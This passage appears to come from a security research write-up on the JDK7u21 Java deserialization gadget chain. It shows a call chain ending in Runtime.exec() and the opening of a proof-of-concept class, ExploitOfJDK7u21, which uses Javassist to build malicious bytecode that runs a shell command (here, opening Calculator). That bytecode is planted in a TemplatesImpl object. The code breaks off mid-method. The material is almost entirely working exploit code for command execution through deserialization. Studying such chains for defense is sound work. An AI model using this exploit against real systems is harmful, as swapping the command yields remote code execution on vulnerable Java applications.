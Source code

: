 ```java
                            MaliciousClass.<clinit>()
                              ...
                                Runtime.exec()
```

# POC
 - POC1

```java
package org.h3rmesk1t.JDK7u21;


import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;

import javax.xml.transform.Templates;
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.HashSet;
import java.util.LinkedHashSet;
import java.util.Map;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/10 8:16 下午
 */
public class ExploitOfJDK7u21 {

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {

        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static TemplatesImpl generateEvilTemplates() throws Exception {

        // 生成恶意的 bytecodes
        String cmd = "java.lang.Runtime.getRuntime().exec(\"open -a Calculator.app\");";
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractMethodError.class));
        CtClass ctClass = pool.makeClass("JDK7u21Exploit");
        ctClass.setSuperclass(pool.get(AbstractTranslet.class.getName()));
        ctClass.makeClassInitializer().insertBefore(cmd);
        byte[] ctClassBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{ctClassBytes};

        // 实例化类并设置属性
        TemplatesImpl templatesImpl = new TemplatesImpl();
        setFieldValue(templatesImpl, "_name", "h3rmesk1t");
        setFieldValue(templatesImpl, "_bytecodes", targetByteCodes);
```
